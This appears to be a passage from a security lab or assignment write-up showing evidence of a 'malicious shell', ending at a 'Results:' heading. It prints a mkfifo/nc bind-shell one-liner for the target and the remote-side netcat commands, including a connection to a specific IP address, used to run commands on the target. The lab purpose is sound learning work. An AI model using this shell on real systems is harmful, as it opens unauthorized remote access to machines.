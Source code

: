 * Give evidence of your malicious shell running a command:

  > target system:
  ```
  rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 1234 >/tmp/f
  ```
  > remote system:
  ```
  nc 52.91.148.181 1234
  cd /home/ubuntu
  touch innocentfile
  echo nothing to see here > innocentfile
  ls -lh
  cat innocentfile
  ```
  > Initial setup and connection to target:  
  > ![proof 1](proof1.png)  
  > Code I ran on remote system to execute on target:  
  > ![proof 2](proof2.png)  
  > Results:  